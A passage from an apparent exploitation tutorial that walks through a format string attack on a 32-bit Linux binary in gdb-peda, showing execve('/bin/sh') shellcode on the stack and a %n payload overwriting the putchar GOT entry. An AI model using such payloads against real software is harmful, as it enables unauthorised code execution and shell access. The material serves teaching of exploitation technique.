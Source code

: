 ```
     0xbffff913:	nop
     0xbffff914:	nop
     0xbffff915:	nop
     0xbffff916:	nop
     0xbffff917:	nop
     0xbffff918:	xor    eax,eax
     0xbffff91a:	push   eax
     0xbffff91b:	push   0x68732f2f
     0xbffff920:	push   0x6e69622f
     0xbffff925:	mov    ebx,esp
     0xbffff927:	push   eax
     0xbffff928:	push   ebx
     0xbffff929:	mov    ecx,esp
     0xbffff92b:	mov    al,0xb
     0xbffff92d:	int    0x80
     0xbffff92f:	add    BYTE PTR [ebp+0x53],dl
     0xbffff932:	inc    ebp
  gdb-peda$ 
```
Above we first used the find command to find 4 consecutive NOP's on the stack
(0x90's) and we found a list of possible addresses, we then chose an address
near to the bottom of the list and examined 20 instructions (x/20i) from that
address. This looks like the assembly for an execve syscall (the 0xb going in
the eax/al register and the int 0x80) so we found our address 0xbffff910.

We now have all the information we need to exploit this, to recap
* We are going to overwrite the putchar address 0x0804a010
* We are going to overwrite it with the address of our shell code where is
  0xbffff910

## Crafting the exploit
Armed with our information we are now going to tackle the writing the address of
our shellcode in two parts 

* Write the lower order bytes. From our shellcode address this means we first
  want to write the value f910 which in decimal is 63760 now we have to take
  into account that we have already written 5 bytes and we want to use one byte
  as a spacer so this leaves us with 63754 bytes and our format string becomes

```
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08"').%63754u.%4\$n

   [----------------------------------registers-----------------------------------]
  EAX: 0xf910 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0x0 
  EDX: 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0xbffff638 --> 0x0 
  ESP: 0xbffff59c --> 0x8048480 (<main+60>:	leave)
  EIP: 0xf910
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0xf910
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff59c --> 0x8048480 (<main+60>:	leave)
  0004| 0xbffff5a0 --> 0xa ('\n')
  0008| 0xbffff5a4 --> 0xbffff826 --> 0x804a010 --> 0xf910 
  0012| 0xbffff5a8 --> 0x1 
  0016| 0xbffff5ac --> 0xb7ec71c9 (test   eax,eax)
  0020| 0xbffff5b0 --> 0x804a010 --> 0xf910 
  0024| 0xbffff5b4 (".%63754u.%4$n")
  0028| 0xbffff5b8 ("754u.%4$n")
```